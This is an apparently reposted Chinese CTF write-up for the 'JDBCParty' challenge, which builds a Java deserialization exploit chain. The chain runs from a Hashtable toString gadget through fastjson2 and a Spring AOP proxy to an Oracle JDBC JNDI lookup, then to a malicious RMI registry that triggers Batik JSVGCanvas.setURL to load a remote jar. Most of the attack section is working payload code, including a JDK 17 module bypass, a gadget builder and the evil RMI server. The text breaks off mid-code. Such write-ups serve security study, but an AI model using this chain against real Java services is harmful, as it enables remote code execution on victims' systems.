# 软件攻防赛JDBCParty赛后解-先知社区

> **来源**: https://xz.aliyun.com/news/16917  
> **文章ID**: 16917

---

赛后晚上出了。可惜已经没环境进行测试了。  
反编译



存在反序列化点



jdk17 fastjson2 oracle batik-swing



最终思路

> 反序列化fastjson 打oracle jdbc getter去触发JNDI注入
>
> 高版本tomcat无forcestring，setter方式触发batik-swing中setURL造成RCE

​

#### 反序列化

由于是jdk17，需要使用unsafe去打破反射限制

```
        public static void unsafe_break_jdk17() throws Exception {
            Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
            theUnsafe.setAccessible(true);
            Unsafe unsafe = (Unsafe) theUnsafe.get(null);

            //获取Object的module
            Module objectmodule = Object.class.getModule();
            //获取当前类对象
            Class mainClass = 当前类名.class;
            //获取在class中module的偏移量
            long module = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            //设置module
            unsafe.getAndSetObject(mainClass,module,objectmodule);
        }
```

目前已经拥有了fastjson2.toString --> OracleCachedRowSet.getConnection(),需要一条toString

在尝试了多条常规链子后，选择了hashtable这条toString触发链

> //hashtable.readObject ---> TextAndMnemonicHashMap.get ----> obj.toString

而然在测试的过程中发现，getter会调用到getCursorName中，抛出异常结束了运行



实际上这与jackson在调用templates的getter不稳定是类似的

参考文章 <https://xz.aliyun.com/t/12846>

我们可以使用JdkDynamicAopProxy类指定OracleCachedRowSet的接口来进行对getConnection的稳定触发



在其RowSetInternal接口中定义了getConncetion方法



实现一个proxy即可

```
    public static Object getProxy(Object obj) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{RowSetInternal.class}, handler);
        return proxyObj;
    }
```

再次反序列化便能进入getConnection中，进行jndi注入





#### JNDI注入



tomcat的版本为10.1.31，不存在forcestring，无法使用常规的方法进行RCE

相关文章 [https://xz.aliyun.com/t/16719](https://xz.aliyun.com/t/16719?)

尽管高版本的forcestring被修复了，但仍然存在着触发setter的方式，最终找到了JSVGCanvas.setURL来进行RCE



<https://mp.weixin.qq.com/s?__biz=MzkzOTQzOTE1NQ==&mid=2247483750&idx=1&sn=12a793075d0a8713bbfb4341b3591628&chksm=c2f1a43af5862d2cc898be9e4b43b24d24b29173501d3c10d812a8fcb7dd25d858e3095969ea#rd>

<https://github.com/Y4Sec-Team/CVE-2023-21939>

这里踩了一个坑，mac打JarRCE是没反应的，具体原因未知，换成了windows才成功





编写RMIServer，方便一些

```
    
    public static void main(String[] args) throws Exception{
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("org.apache.batik.swing.JSVGCanvas", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("URI", "http://127.0.0.1:8886/1.xml"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("remoteobj", referenceWrapper);
```

成功进入到了setURL



但是在环境中却没能成功RCE

巨坑，换成windows进行深入调试

在JSVGCanvas.setURL加载类的过程中，会先在当前的类加载器的依赖中寻找是否存在该类，如果不存在，就从远程的jar中寻找该类并加载。

由于我们是jar调试，就导致了以下问题

会用jar协议往目标中寻找该类的路径。。很显然是不存在的，导致报错无法rce




而然在源码启动的项目中，是可以获取的





最终payload

```

import com.alibaba.fastjson2.JSONArray;
import oracle.jdbc.rowset.OracleCachedRowSet;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;
import sun.reflect.ReflectionFactory;

import javax.sql.RowSetInternal;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class OracleJdbc {

        public static void main(String[] args) throws Exception {
           unsafe_break_jdk17();
            // sink
            OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();
            oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1097/remoteobj");

            Object proxy = getProxy(oracleCachedRowSet);

            JSONArray objects = new JSONArray();
            objects.add(proxy);


            Hashtable hashMapXStringToString = makeTableTstring(objects);

            String serialize = serialize(hashMapXStringToString);
//            System.out.println(serialize);

            Object deserialize = deserialize(serialize);


        }

        public static void unsafe_break_jdk17() throws Exception {
            Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
            theUnsafe.setAccessible(true);
            Unsafe unsafe = (Unsafe) theUnsafe.get(null);

            //获取Object的module
            Module objectmodule = Object.class.getModule();
            //获取当前类对象
            Class mainClass = OracleJdbc.class;
            //获取在class中module的偏移量
            long module = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            //设置module
            unsafe.getAndSetObject(mainClass,module,objectmodule);
        }

    public static String serialize(Object obj) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(obj);
        String payload = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(payload);
        return payload;
    }

    public static Object deserialize(String payload) throws Exception {
        byte[] data = Base64.getDecoder().decode(payload);
        return new ObjectInputStream(new ByteArrayInputStream(data)).readObject();
    }
    //反射改值
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getSuperclass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }


    public static Object getProxy(Object obj) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{RowSetInternal.class}, handler);
        return proxyObj;
    }

    //hashtable.readObject  ---> TextAndMnemonicHashMap.get ----> obj.toString
    public static Hashtable makeTableTstring(Object o) throws Exception{
        Map tHashMap1 = (HashMap) createWithoutConstructor(Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap"));
        Map tHashMap2 = (HashMap) createWithoutConstructor(Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap"));
        tHashMap1.put(o,"yy");
        tHashMap2.put(o,"zZ");
        setValue(tHashMap1,"loadFactor",1);
        setValue(tHashMap2,"loadFactor",1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(tHashMap1,1);
        hashtable.put(tHashMap2,1);

        tHashMap1.put(o, null);
        tHashMap2.put(o, null);
        return hashtable;
    }


    public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
